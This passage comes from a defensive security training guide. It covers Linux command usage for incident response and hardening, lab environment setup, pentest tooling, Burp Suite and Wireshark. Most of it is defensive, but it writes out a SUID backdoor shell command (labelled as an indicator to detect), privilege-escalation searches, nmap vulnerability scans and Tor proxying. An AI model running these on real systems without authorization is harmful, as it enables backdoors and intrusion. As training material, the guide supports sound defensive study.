**Security use case:** `tail -f auth.log` during brute-force monitoring. `head` for quick file type identification.

### file — Determine File Type

```bash
file suspicious.bin
# Output: suspicious.bin: ELF 64-bit LSB executable
```

**Security use case:** Identify disguised executables (e.g., `malware.jpg` that is actually an ELF binary).

---

## Permissions

Linux permissions control **who can read, write, and execute** files.

### Understanding Permission Notation

```
-rwxr-x--- 1 root developers 4096 Jul 20 10:00 deploy.sh
│││││││││
│││││││└└─ Other: ---
││││└└└──── Group: r-x
│└└└─────── Owner: rwx
└────────── File type (- = file, d = directory)
```

| Permission | File | Directory |
|------------|------|-------------|
| r (4) | Read contents | List contents |
| w (2) | Write/modify | Create/delete files |
| x (1) | Execute | Enter (cd into) |

### chmod — Change Permissions

```bash
chmod 644 report.txt        # rw-r--r--
chmod 750 /opt/scripts/     # rwxr-x---
chmod u+x script.sh         # Add execute for owner
chmod o-rwx sensitive.conf  # Remove all perms for others
chmod -R g+rX /shared/      # Recursive read for group
```

**Security use case:** Remove world-readable from config files containing secrets. Ensure scripts are not world-writable (webshell upload vector).

### chown / chgrp — Change Ownership

```bash
chown analyst:analyst /cases/evidence/
chown -R www-data:www-data /var/www/html
chgrp developers /opt/shared/
```

**Security use case:** Ensure web files owned by dedicated service account, not root.

### Special Bits: SUID, SGID, Sticky

| Bit | Octal | Effect |
|-----|-------|--------|
| SUID | 4000 | File executes as **owner**, not caller |
| SGID | 2000 | File executes as **group**; dirs inherit group |
| Sticky | 1000 | Only owner can delete files in directory |

```bash
# Find SUID binaries
find / -perm -4000 -type f 2>/dev/null

# Example SUID program
ls -la /usr/bin/passwd
# -rwsr-xr-x 1 root root ... /usr/bin/passwd
#        ^
#        s = SUID set
```

**Security use case:** SUID root binaries are **privilege escalation targets**. Audit with find, compare against known baseline. Custom SUID shells (`cp /bin/bash /tmp/sh; chmod +s /tmp/sh`) are backdoor indicators.

### ACLs (Access Control Lists)

Beyond standard owner/group/other, ACLs allow granular per-user permissions.

```bash
# Install ACL tools
sudo apt install acl

# View ACLs
getfacl /shared/project/

# Grant read/write to specific user
setfacl -m u:contractor:rw /shared/project/confidential.doc

# Grant default ACL for new files in directory
setfacl -d -m u:analyst:r /shared/logs/

# Remove all ACLs
setfacl -b /shared/project/
```

**Security use case:** Audit ACLs during access reviews. Overly permissive ACLs on `/shared` directories are data leak vectors.

### umask — Default Permission Mask

```bash
umask          # Default: 0022
umask 077      # New files: owner only
```

**Security use case:** Set restrictive umask (077) on servers handling sensitive data.

> **Never Forget:** World-writable directories (`chmod 777`) are invitations for webshell uploads and trojan replacement. **Never use 777 in production.**

---

## Processes

### ps — Process Status

```bash
ps aux                    # All processes, BSD format
ps -ef                    # All processes, POSIX format
ps aux | grep ssh         # Filter
ps -p 1234 -o pid,user,cmd # Specific PID details
```

**Security use case:** Identify rogue processes during IR. Look for unexpected `/tmp/` executables, misspelled process names (`scvhost` vs `svchost`).

### top / htop — Interactive Process Viewers

```bash
top                       # Built-in; Shift+M sort by memory
htop                      # Enhanced; F6 to sort, F9 to kill
```

**Security use case:** Spot CPU spikes from crypto miners, memory consumption from exfiltration tools.

### kill / killall — Terminate Processes

```bash
kill 1234                 # SIGTERM (graceful)
kill -9 1234              # SIGKILL (force)
killall -9 suspicious_name
pkill -f "python.*backdoor"
```

**Security use case:** Terminate malicious processes during containment. **Document PID and command line first** for forensics.

### strace — Trace System Calls

```bash
strace -p 1234                    # Attach to running process
strace -e trace=network ./app     # Filter network calls
strace -f -o /tmp/trace.log ./malware   # Follow forks, log to file
```

**Security use case:** Analyze malware behavior in sandbox — see file, network, and process operations without full reverse engineering.

### lsof — List Open Files

```bash
lsof -i :443              # What is listening on 443?
lsof -i TCP:22            # SSH connections
lsof -p 1234              # Files opened by PID 1234
lsof -u www-data          # All files opened by user
lsof /var/log/auth.log    # Who has log file open
```

**Security use case:** Identify which process owns a suspicious network connection. Critical during IR: `lsof -i | grep ESTABLISHED`.

### /proc Filesystem

```bash
cat /proc/1234/cmdline    # Command that started process
ls -la /proc/1234/fd/     # Open file descriptors
cat /proc/1234/environ    # Environment variables
cat /proc/1234/maps       # Memory maps
```

**Security use case:** Extract process details when `ps` output is unreliable (rootkit hiding processes). Compare `/proc` entries against `ps` output to detect rootkits.

---

## Networking CLI

### ip — Modern Network Configuration

```bash
ip addr show              # Interface addresses
ip link show              # Interface status
ip route show             # Routing table
ip neigh show             # ARP table
```

**Security use case:** Verify network configuration during IR. Unexpected interfaces or routes may indicate tunneling/pivoting.

### ss — Socket Statistics (replaces netstat)

```bash
ss -tulnp                 # All listening TCP/UDP with processes
ss -tan state established # Active connections
ss -t src 10.0.0.5        # Connections from specific IP
```

**Security use case:** Faster than netstat. Identify C2 connections: `ss -tan | grep ESTAB | awk '{print $5}' | cut -d: -f1 | sort | uniq -c | sort -rn`

### netstat — Legacy (still common)

```bash
netstat -tulnp            # Listening ports
netstat -an | grep SYN    # Connection states
```

### tcpdump — Packet Capture (CLI)

```bash
# Capture on interface eth0, write to file
sudo tcpdump -i eth0 -w capture.pcap

# Capture HTTP traffic on port 80
sudo tcpdump -i eth0 port 80 -A

# Capture traffic to/from specific host
sudo tcpdump -i eth0 host 192.168.1.100

# Capture first 100 packets
sudo tcpdump -i eth0 -c 100 -w sample.pcap
```

**Security use case:** Capture evidence during incident. Filter C2 traffic. Always document capture start time for chain of custody.

### Wireshark CLI (tshark)

Full GUI and workflow guide is in **Part 3 → Wireshark — Complete Practical Guide** below. Quick CLI reference:

```bash
# Read pcap and filter HTTP requests
tshark -r capture.pcap -Y "http.request" -T fields -e http.host -e http.request.uri

# Capture live
sudo tshark -i eth0 -f "port 443" -w ssl_traffic.pcap

# Statistics
tshark -r capture.pcap -q -z conv,tcp
```

**Security use case:** Automate pcap analysis in scripts. Extract IOCs (domains, IPs) from captures at scale.

### nmap — Network Scanner (Basics)

```bash
# Ping sweep
nmap -sn 192.168.1.0/24

# TCP SYN scan (requires root)
sudo nmap -sS 192.168.1.100

# Service version detection
nmap -sV -p 1-1000 192.168.1.100

# Script scan (vuln detection)
nmap --script vuln 192.168.1.100

# Full scan with OS detection
sudo nmap -A -T4 192.168.1.100
```

**Security use case:** Asset discovery, vulnerability assessment. **Only scan networks you are authorized to scan.**

| Flag | Meaning |
|------|---------|
| -sn | Ping scan (no port scan) |
| -sS | SYN stealth scan |
| -sV | Version detection |
| -A | Aggressive (OS, version, scripts, traceroute) |
| -p | Port range |
| -T0–T5 | Timing (T0=slowest/stealthiest, T5=fastest) |

---

## Users and Authentication

### useradd / usermod / userdel

```bash
# Create user with home directory and bash shell
sudo useradd -m -s /bin/bash analyst

# Set password
sudo passwd analyst

# Add to group
sudo usermod -aG sudo analyst

# Lock account
sudo usermod -L compromised_user

# Delete user and home
sudo userdel -r old_contractor
```

**Security use case:** Disable (lock) compromised accounts immediately during IR. Remove contractor accounts promptly on offboarding.

### id / whoami / w / last

```bash
id                        # Current user UID/GID/groups
whoami
w                         # Who is logged in and what they are doing
last                      # Login history
lastb                     # Failed login attempts
```

**Security use case:** `last` and `lastb` are first commands during suspected unauthorized access investigation.

### sudo — Execute as Superuser

```bash
sudo -l                   # List permitted commands for current user
sudo -u www-data cat /var/www/html/config.php
```

**Security use case:** Audit sudo permissions. Overly broad sudoers rules (`ALL=(ALL) NOPASSWD: ALL`) are privilege escalation paths.

### PAM Overview (Pluggable Authentication Modules)

PAM configures authentication via `/etc/pam.d/` files.

```
/etc/pam.d/sshd       → SSH authentication rules
/etc/pam.d/login      → Console login rules
/etc/pam.d/sudo       → Sudo authentication rules
```

Example `/etc/pam.d/sshd` snippet:

```
auth required pam_unix.so
account required pam_unix.so
password required pam_unix.so
session required pam_loginuid.so
```

Common PAM modules:

| Module | Purpose |
|--------|---------|
| pam_unix.so | Traditional password auth |
| pam_google_authenticator.so | TOTP MFA |
| pam_faillock.so | Lock account after failed attempts |
| pam_limits.so | Resource limits |

**Security use case:** Configure account lockout after failed attempts. Enforce MFA via PAM for SSH.

### SSH Hardening

Key settings in `/etc/ssh/sshd_config`:

```
PermitRootLogin no
PasswordAuthentication no
PubkeyAuthentication yes
MaxAuthTries 3
AllowUsers analyst deploy
X11Forwarding no
```

Apply and verify:

```bash
sudo sshd -t              # Test config syntax
sudo systemctl restart sshd
```

**Security use case:** Disable root login and password auth. Force key-based authentication. Restrict allowed users.

---

## Logs

### journalctl — systemd Journal

```bash
journalctl -u ssh          # SSH service logs
journalctl -u nginx --since "2026-07-20 09:00"
journalctl -p err          # Priority error and above
journalctl -f              # Follow live
journalctl --disk-usage    # Check journal size
```

**Security use case:** Centralized log access on systemd systems. Filter by time window during IR.

### /var/log — Traditional Log Files

| Log File | Contents |
|----------|----------|
| `/var/log/auth.log` | Authentication events (Debian/Ubuntu) |
| `/var/log/secure` | Authentication events (RHEL/CentOS) |
| `/var/log/syslog` | General system messages |
| `/var/log/apache2/access.log` | Web server access |
| `/var/log/apache2/error.log` | Web server errors |
| `/var/log/kern.log` | Kernel messages |
| `/var/log/audit/audit.log` | auditd records |

```bash
grep "Failed password" /var/log/auth.log | tail -20
grep -i "accepted" /var/log/auth.log | awk '{print $11}' | sort | uniq -c
```

**Security use case:** First stop for brute-force detection, unauthorized access, privilege escalation via sudo/su.

### auditd — Linux Audit Framework

Install and configure:

```bash
sudo apt install auditd audispd-plugins
sudo systemctl enable auditd
```

Add rules in `/etc/audit/rules.d/`:

```bash
# Monitor file access to /etc/passwd
-w /etc/passwd -p wa -k passwd_changes

# Monitor execution of specific binary
-w /usr/bin/wget -p x -k wget_exec

# Monitor privilege escalation
-a always,exit -F arch=b64 -S execve -F euid=0 -k root_commands
```

Query logs:

```bash
ausearch -k passwd_changes
ausearch -ts recent -m execve
aureport -x --summary
```

**Security use case:** Tamper-evident logging. Detect unauthorized file modifications and privilege escalation. Logs are harder to alter than application logs.

### logrotate — Log Rotation

Config in `/etc/logrotate.d/`:

```
/var/log/myapp/*.log {
    daily
    rotate 30
    compress
    delaycompress
    missingok
    notifempty
    create 640 syslog adm
}
```

**Security use case:** Ensure logs are retained long enough for investigation but do not fill disk. **Verify log rotation is not being abused to destroy evidence.**

---

## File Integrity

### md5sum / sha256sum — Checksums

```bash
sha256sum important.db > important.db.sha256
sha256sum -c important.db.sha256    # Verify: important.db: OK

# Hash all files in directory
find /etc -type f -exec sha256sum {} + > /baseline/etc_hashes.txt
```

**Security use case:** Verify evidence has not been tampered with. Create baselines and detect unauthorized changes.

### AIDE Overview (Advanced Intrusion Detection Environment)

AIDE creates a database of file hashes and compares on subsequent runs.

```bash
sudo apt install aide
sudo aideinit                 # Initialize database
sudo aide --check             # Compare current state to database
```

**Security use case:** Host-based integrity monitoring. Detect unauthorized binary replacements, config changes, new SUID files.

---

## Firewall

### iptables — Legacy Packet Filtering

```bash
# List rules
sudo iptables -L -n -v

# Allow SSH
sudo iptables -A INPUT -p tcp --dport 22 -j ACCEPT

# Allow established connections
sudo iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

# Drop all other inbound
sudo iptables -A INPUT -j DROP

# Save rules (Debian/Ubuntu)
sudo iptables-save > /etc/iptables/rules.v4
```

**Security use case:** Host-level firewall as defense-in-depth layer. Default deny inbound.

### nftables — Modern Replacement

```bash
sudo nft list ruleset

# Basic table
sudo nft add table inet filter
sudo nft add chain inet filter input { type filter hook input priority 0 \; policy drop \; }
sudo nft add rule inet filter input tcp dport 22 accept
sudo nft add rule inet filter input ct state established,related accept
```

### ufw — Uncomplicated Firewall (Ubuntu)

```bash
sudo ufw default deny incoming
sudo ufw default allow outgoing
sudo ufw allow 22/tcp
sudo ufw allow 80,443/tcp
sudo ufw enable
sudo ufw status verbose
```

**Security use case:** Quick host firewall for lab and production servers. Simplest starting point for beginners.

| Command | Action |
|---------|--------|
| `ufw enable` | Activate firewall |
| `ufw allow 8080` | Allow port |
| `ufw deny from 10.0.0.5` | Block IP |
| `ufw delete allow 8080` | Remove rule |

---

## Containers (Docker Security Basics)

```bash
# Run container with read-only root filesystem
docker run --read-only --tmpfs /tmp myapp

# Drop all capabilities, add only needed ones
docker run --cap-drop=ALL --cap-add=NET_BIND_SERVICE myapp

# Run as non-root user
docker run --user 1000:1000 myapp

# Limit resources
docker run --memory=512m --cpus=1 myapp

# Scan image for vulnerabilities
docker scan myimage:latest
```

Security checklist:

| Practice | Why |
|----------|-----|
| Non-root user in container | Limits container breakout impact |
| Read-only filesystem | Prevents malware persistence |
| Drop capabilities | Minimize Linux capability set |
| Scan images | Detect known CVEs in base images |
| No secrets in Dockerfile | Use secrets management |
| Pin image versions | Avoid surprise updates |

**Security use case:** Container escape is a real attack vector. Harden containers as you would any host.

---

## Text Processing for Forensics

### grep — Search Patterns

```bash
grep -r "password" /etc/                    # Recursive search
grep -i "failed" /var/log/auth.log          # Case insensitive
grep -E "192\.168\.[0-9]+\.[0-9]+" access.log  # Extended regex
grep -v "127.0.0.1" access.log              # Invert match (exclude)
grep -c "POST" access.log                   # Count matches
zgrep "error" /var/log/syslog.2.gz          # Search compressed logs
```

**Security use case:** Extract IOCs from logs. Find error patterns. Search config files for hardcoded secrets.

### awk — Column Processing

```bash
# Print IP addresses from auth.log (field 11)
awk '/Failed password/ {print $11}' /var/log/auth.log | sort | uniq -c | sort -rn

# Print columns from CSV
awk -F',' '{print $1, $3}' users.csv

# Sum bytes from apache log
awk '{sum+=$10} END {print sum}' access.log
```

**Security use case:** Parse logs into structured data. Top talkers, failed login counts, bandwidth analysis.

### sed — Stream Editor

```bash
sed 's/password=.*$/password=REDACTED/' config.txt    # Redact secrets
sed -n '100,200p' huge.log                             # Print lines 100-200
sed '/^#/d' sshd_config                                # Remove comment lines
```

**Security use case:** Redact sensitive data before sharing logs. Extract time windows from large files.

### cut — Extract Columns

```bash
cut -d' ' -f1,3 access.log
cut -d: -f1 /etc/passwd    # List usernames
```

### sort / uniq — Sort and Deduplicate

```bash
sort access.log | uniq -c | sort -rn | head -20
# Count unique lines, sort by frequency, show top 20
```

**Security use case:** Find most frequent attacking IPs, most accessed URLs, most common user agents.

### Worked Example: Brute Force Analysis Pipeline

```bash
# Complete pipeline: find top brute-force IPs from auth.log
grep "Failed password" /var/log/auth.log \
  | awk '{print $(NF-3)}' \
  | sort \
  | uniq -c \
  | sort -rn \
  | head -10
```

---

## Compression and Archiving for Evidence

### tar — Tape Archive

```bash
# Create compressed archive of evidence
tar -czvf case001-evidence.tar.gz /cases/2026-001/evidence/

# Extract
tar -xzvf case001-evidence.tar.gz

# List contents without extracting
tar -tzvf case001-evidence.tar.gz
```

| Flag | Meaning |
|------|---------|
| -c | Create |
| -x | Extract |
| -z | gzip compression |
| -v | Verbose |
| -f | Filename |
| -p | Preserve permissions |

### zip / unzip

```bash
zip -r evidence.zip /cases/2026-001/
unzip -l evidence.zip    # List without extracting
```

### gzip / gunzip

```bash
gzip -k large.log        # Compress, keep original (-k)
gunzip large.log.gz
```

**Security use case:** Package evidence for transfer. **Always hash archives** before and after transfer:

```bash
tar -czvf evidence.tar.gz /cases/2026-001/
sha256sum evidence.tar.gz > evidence.tar.gz.sha256
```

> **Never Forget:** Evidence integrity requires **hash before, hash after, document chain of custody**. Compressed archives still need checksums.

---

## Linux Commands Cheat Sheet

| Category | Command | Purpose |
|----------|---------|---------|
| **Navigation** | `pwd`, `cd`, `ls -la` | Orient and list files |
| **Files** | `find`, `cat`, `less`, `head`, `tail -f` | Search and read |
| **Permissions** | `chmod`, `chown`, `getfacl`, `setfacl` | Access control |
| **SUID Audit** | `find / -perm -4000 2>/dev/null` | Privesc vectors |
| **Processes** | `ps aux`, `top`, `htop`, `kill` | Process management |
| **Deep Process** | `strace -p PID`, `lsof -i` | Behavioral analysis |
| **Network** | `ip addr`, `ss -tulnp`, `tcpdump -i eth0 -w cap.pcap` | Connection analysis |
| **Scanning** | `nmap -sV target` | Service discovery |
| **Users** | `last`, `lastb`, `id`, `sudo -l` | Account audit |
| **Logs** | `journalctl -u ssh`, `grep Failed /var/log/auth.log` | Event analysis |
| **Audit** | `ausearch -ts recent`, `aureport` | Tamper-evident audit |
| **Integrity** | `sha256sum`, `aide --check` | Change detection |
| **Firewall** | `ufw status`, `iptables -L -n` | Host filtering |
| **Forensics** | `grep`, `awk`, `sed`, `sort`, `uniq` | Log parsing |
| **Evidence** | `tar -czvf`, `sha256sum` | Preserve and verify |

---

# Part 3: Environment Setup & Configs

## Lab Setup

### Recommended Architecture



### Virtualization Options

| Tool | Pros | Cons |
|------|------|------|
| **VirtualBox** | Free, cross-platform | Slower, limited snapshots |
| **VMware Workstation** | Better performance | Paid (free for personal use on some versions) |
| **UTM (macOS)** | Apple Silicon native | macOS only |
| **Proxmox** | Server-grade, clustering | Requires dedicated hardware |

### VM Inventory (Minimum Lab)

| VM | OS | RAM | Disk | Purpose |
|----|----|-----|------|---------|
| Kali | Kali Linux 2024+ | 4 GB | 80 GB | Offensive tools |
| Target-Linux | Ubuntu Server 22.04 | 2 GB | 40 GB | Hardening practice, target |
| Target-Win | Windows 10/11 | 4 GB | 60 GB | AD lab (later) |
| SIEM | Ubuntu + Elastic | 8 GB | 100 GB | Detection lab (optional) |

### Network Isolation

```
Host-Only Network: 192.168.56.0/24
  - Kali:       192.168.56.10
  - Ubuntu:     192.168.56.20
  - Windows:    192.168.56.30
  - SIEM:       192.168.56.40

NO bridged adapter to production LAN during offensive exercises.
```

### Isolated VLAN (Advanced)

If you have a managed switch or router supporting VLANs:

```
VLAN 100 (Lab): 10.100.0.0/24 — isolated, no internet or restricted via firewall
VLAN 1 (Home):  192.168.1.0/24 — production, no route to VLAN 100
```

### Snapshot Strategy

| Event | Action |
|-------|--------|
| Fresh VM install | Snapshot: "clean-install" |
| Before each exercise | Snapshot: "pre-exercise-YYYYMMDD" |
| After successful hardening | Snapshot: "hardened-baseline" |
| After compromise in lab | Restore to pre-exercise snapshot |

---

## Shell Configuration

### ~/.bashrc Essentials

```bash
# ~/.bashrc — add to end of file

# History settings (forensics-friendly)
export HISTSIZE=10000
export HISTFILESIZE=20000
export HISTTIMEFORMAT="%F %T "
shopt -s histappend

# Security-focused aliases
alias ll='ls -la'
alias listening='ss -tulnp'
alias ports='ss -tulnp'
alias authfail='grep "Failed password" /var/log/auth.log | tail -20'
alias suid='find / -perm -4000 -type f 2>/dev/null'

# Prompt with exit code (red if last command failed)
PS1='\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\$( [ $? -ne 0 ] && echo " \[\033[01;31m\]" || echo " \[\033[01;32m\]" )\$ \[\033[00m\]'

# Safe rm (optional — use with caution in security work)
# alias rm='rm -i'
```

Apply: `source ~/.bashrc`

### ~/.ssh/config

```
# ~/.ssh/config
Host lab-kali
    HostName 192.168.56.10
    User kali
    IdentityFile ~/.ssh/id_ed25519_lab
    StrictHostKeyChecking accept-new

Host lab-ubuntu
    HostName 192.168.56.20
    User admin
    IdentityFile ~/.ssh/id_ed25519_lab
    Port 22

Host github.com
    HostName github.com
    User git
    IdentityFile ~/.ssh/id_ed25519_github
    IdentitiesOnly yes

Host *
    AddKeysToAgent yes
    ServerAliveInterval 60
    ServerAliveCountMax 3
```

Usage: `ssh lab-kali` instead of remembering IP and key paths.

### ssh-keygen

```bash
# Ed25519 key (modern, recommended)
ssh-keygen -t ed25519 -C "analyst@lab" -f ~/.ssh/id_ed25519_lab

# Set passphrase (required for security)
# Enter passphrase: ********

# Copy public key to target
ssh-copy-id -i ~/.ssh/id_ed25519_lab.pub admin@192.168.56.20

# View fingerprint
ssh-keygen -lf ~/.ssh/id_ed25519_lab.pub
```

| Key Type | Recommendation |
|----------|----------------|
| Ed25519 | Default choice — fast, secure |
| RSA 4096 | Legacy compatibility |
| ECDSA | Avoid for new keys |

---

## /etc/ssh/sshd_config Key Settings

Full hardening template with comments:

```
# /etc/ssh/sshd_config — security-hardened

# --- Authentication ---
PermitRootLogin no
PubkeyAuthentication yes
PasswordAuthentication no
PermitEmptyPasswords no
MaxAuthTries 3
LoginGraceTime 30

# --- Access Control ---
AllowUsers admin analyst
# AllowGroups ssh-users

# --- Session ---
ClientAliveInterval 300
ClientAliveCountMax 2
MaxSessions 3
MaxStartups 3:50:10

# --- Forwarding (disable unless needed) ---
X11Forwarding no
AllowTcpForwarding no
AllowAgentForwarding no
PermitTunnel no

# --- Cryptography ---
KexAlgorithms curve25519-sha256,curve25519-sha256@libssh.org
Ciphers chacha20-poly1305@openssh.com,aes256-gcm@openssh.com
MACs hmac-sha2-512-etm@openssh.com,hmac-sha2-256-etm@openssh.com

# --- Logging ---
LogLevel VERBOSE
SyslogFacility AUTH

# --- Misc ---
UsePAM yes
PrintMotd no
DebianBanner yes
```

Validate and apply:

```bash
sudo sshd -t && sudo systemctl restart sshd
```

> **Never Forget:** Test SSH config in a **second terminal** before closing your current session. A bad sshd_config can lock you out.

---

## /etc/sudoers

Edit safely with `visudo` (never edit directly with regular editor — syntax errors lock out sudo):

```bash
sudo visudo
```

Example secure entries:

```
# Allow analyst to run specific commands
analyst ALL=(ALL) /usr/bin/systemctl status *, /usr/bin/journalctl

# Deploy user can restart web server only
deploy ALL=(www-data) NOPASSWD: /usr/bin/systemctl restart nginx

# Security group full sudo with password
%security ALL=(ALL) ALL
```

Rules:

| Rule | Rationale |
|------|-----------|
| Never `NOPASSWD: ALL` | Passwordless full sudo = root for anyone with access |
| Use command aliases | Limit to specific binaries |
| Use groups | `%security` instead of listing individuals |
| Always use visudo | Prevents syntax lockout |

---

## fail2ban

Install and configure:

```bash
sudo apt install fail2ban
sudo systemctl enable fail2ban
```

Custom jail `/etc/fail2ban/jail.local`:

```ini
[DEFAULT]
bantime  = 3600
findtime = 600
maxretry = 3
banaction = iptables-multiport

[sshd]
enabled  = true
port     = ssh
filter   = sshd
logpath  = /var/log/auth.log
maxretry = 3
bantime  = 86400
```

Management:

```bash
sudo fail2ban-client status sshd
sudo fail2ban-client set sshd unbanip 192.168.1.100
```

**Security use case:** Automated response to brute-force attacks. Not a substitute for key-based auth and firewall rules.

---

## chrony / NTP

Accurate time is **critical for forensics, log correlation, and certificate validation**.

```bash
sudo apt install chrony
```

`/etc/chrony/chrony.conf`:

```
pool time.nist.gov iburst
pool pool.ntp.org iburst
makestep 1.0 3
rtcsync
```

```bash
chronyc tracking          # Verify sync status
chronyc sources           # View time sources
timedatectl status        # System time overview
```

> **Never Forget:** Logs with wrong timestamps are **worthless in court and useless in SIEM correlation**. Sync time on every system.

---

## Environment Variables for Pentest

```bash
# ~/.bashrc or session-specific

# Tool paths
export PATH=$PATH:$HOME/tools:$HOME/go/bin

# Proxy chains (route traffic through SOCKS proxy)
export PROXYCHAINS_CONF_FILE=$HOME/.proxychains/proxychains.conf

# Wordlists
export WORDLISTS=/usr/share/wordlists
export SECLISTS=$HOME/tools/SecLists

# API keys (use a secrets manager in production — this is lab only)
# export SHODAN_API_KEY="your_key_here"

# Python
export PYTHONPATH=$HOME/tools:$PYTHONPATH
```

### proxychains

`/etc/proxychains4.conf`:

```
strict_chain
proxy_dns
[ProxyList]
socks5 127.0.0.1 9050
```

Usage: `proxychains nmap -sT target` (routes through Tor/SOCKS)

---

## Python Virtual Environment

```bash
# Create venv
python3 -m venv ~/venvs/security
source ~/venvs/security/bin/activate

# Install common security tools
pip install requests scapy pwntools impacket python-nmap shodan

# Save dependencies
pip freeze > ~/venvs/security/requirements.txt

# Deactivate
deactivate
```

| Package | Purpose |
|---------|---------|
| requests | HTTP client for web testing |
| scapy | Packet crafting and analysis |
| pwntools | CTF/exploit development |
| impacket | Network protocol implementations |
| python-nmap | Nmap Python wrapper |
| shodan | Shodan API client |

---

## Go Tools

```bash
# Install Go (if not present)
sudo apt install golang-go

# Set GOPATH
export GOPATH=$HOME/go
export PATH=$PATH:$GOPATH/bin

# Install popular security tools
go install github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest
go install github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest
go install github.com/projectdiscovery/httpx/cmd/httpx@latest
go install github.com/OJ/gobuster/v3@latest
```

| Tool | Purpose |
|------|---------|
| nuclei | Template-based vulnerability scanner |
| subfinder | Subdomain enumeration |
| httpx | HTTP probing |
| gobuster | Directory/DNS brute forcing |

---

## Burp Suite

### Layout Overview

```
Burp Suite
├── Target          → Site map, scope definition
├── Proxy           → Intercept/modify HTTP traffic
│   ├── Intercept   → Hold/modify requests
│   └── HTTP History → All proxied traffic
├── Intruder        → Automated fuzzing (positions, payloads)
├── Repeater        → Manual request replay/modification
├── Scanner         → Automated vuln scan (Pro only)
├── Decoder         → Encode/decode (Base64, URL, hex)
├── Comparer        → Diff two responses
└── Extender        → BApps plugins
```

### Basic Workflow

1. Configure browser proxy: `127.0.0.1:8080`
2. Install Burp CA certificate in browser
3. Browse target application
4. Review site map in Target tab
5. Send interesting requests to Repeater
6. Modify parameters, observe responses
7. Send to Intruder for fuzzing
8. Document findings

### Project Configuration

```
Project options → Sessions → Cookie Jar: enabled
User options → Display → HTTP message display: Raw
Target → Scope: add target domain only
Proxy → Intercept: start enabled, disable when browsing normally
```

---

## Wireshark — Complete Practical Guide

Wireshark is the **standard GUI packet analyzer** for security engineers, SOC analysts, and network forensics. It reads live traffic from a network interface or offline `.pcap` / `.pcapng` files captured by tcpdump, tshark, or SPAN/tap mirrors.

> **Never Forget:** **Capture filter** = what gets written to the file (before capture, BPF syntax, cannot change later). **Display filter** = what you see in the GUI (after capture, rich Wireshark syntax, non-destructive). Mixing these up is the #1 beginner mistake.

### Wireshark vs tcpdump vs tshark

| Tool | Interface | Best For |
|------|-----------|----------|
| **tcpdump** | CLI only | Quick captures on servers, scripts, minimal overhead |
| **tshark** | CLI (Wireshark engine) | Automation, SIEM export, batch IOC extraction |
| **Wireshark** | Full GUI | Deep investigation, follow streams, visual analysis |

Typical workflow: **tcpdump/tshark captures on server** → copy `.pcap` to analyst workstation → **Wireshark GUI** for investigation.



---

### Installation and Permissions (Linux)

```bash
# Debian/Ubuntu/Kali
sudo apt update
sudo apt install wireshark tshark

# Allow non-root capture (choose one approach)

# Option A: Add user to wireshark group (common on Kali)
sudo usermod -aG wireshark $USER
# Log out and back in

# Option B: Linux capabilities on dumpcap
sudo setcap cap_net_raw,cap_net_admin=eip /usr/bin/dumpcap
getcap /usr/bin/dumpcap   # verify
```

**Security use case:** Run captures with **least privilege**. On production servers, prefer dedicated capture VLAN + SPAN rather than installing Wireshark on critical hosts.

---

### GUI Layout — Three Panes

| Pane | Name | What You Do Here |
|------|------|------------------|
| **Top** | Packet List | Scroll chronologically; color rules highlight anomalies |
| **Middle** | Packet Details | Expand protocol tree (Ethernet → IP → TCP → HTTP) |
| **Bottom** | Packet Bytes | Raw hex + ASCII; select bytes to highlight field in tree |

**Useful menus:**

| Menu | Purpose |
|------|---------|
| **Capture → Options** | Pick interface, capture filter, promiscuous mode |
| **Analyze → Follow → TCP Stream** | Reassemble entire conversation (HTTP, FTP text) |
| **Statistics → Conversations** | Who talked to whom; find beaconing |
| **Statistics → Protocol Hierarchy** | % of traffic by protocol — spot DNS tunnels, odd protocols |
| **View → Time → Seconds Since Previous Packet** | Detect periodic C2 beacons |
| **File → Export Objects → HTTP** | Pull files transferred over cleartext HTTP |

---

### Step-by-Step: First Capture (Lab)

**Scenario:** Capture HTTP login on intentionally vulnerable lab app (`http://192.168.56.20`).

1. Open Wireshark → select interface (`eth0` or `any`)
2. **Capture filter:** `host 192.168.56.20 and (port 80 or port 443)`
3. Click **Start** (fin shark icon)
4. In browser, log in to lab app
5. Click **Stop**
6. **Display filter:** `http` — see only HTTP packets
7. Find POST request → right-click → **Follow → HTTP Stream**
8. Observe cleartext username/password in stream window

**Finding:** Cleartext HTTP exposes credentials on the wire — document in pentest report with packet number reference.

---

### Capture Filters (BPF — Before Capture)

Set in **Capture → Options → Capture Filter** or `tshark -f "..."`.

| Filter | Meaning |
|--------|---------|
| `host 192.168.1.100` | Traffic to or from that IP |
| `net 10.0.0.0/24` | Entire subnet |
| `port 443` | TCP or UDP port 443 |
